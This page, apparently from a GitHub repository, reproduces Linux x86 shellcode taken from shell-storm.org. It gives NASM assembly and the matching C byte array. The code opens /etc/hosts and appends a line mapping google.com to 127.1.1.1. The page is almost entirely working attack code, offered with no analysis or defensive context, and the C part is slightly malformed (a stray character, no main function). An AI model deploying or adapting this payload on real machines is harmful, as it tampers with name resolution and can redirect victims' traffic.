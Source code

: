 # Modify Hosts File

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-893.php](http://shell-storm.org/shellcode/files/shellcode-893.php)

Original source code:
```nasm
/**

;modify_hosts.asm
;this program add a new entry in hosts file pointing google.com to 127.1.1.1 
;author Javier Tejedor
;date 24/09/2014

global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80        ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20         ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80        ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80        ;syscall to close the file

    push 0x1
    pop eax
    int 0x80        ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
**/
i
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d";
```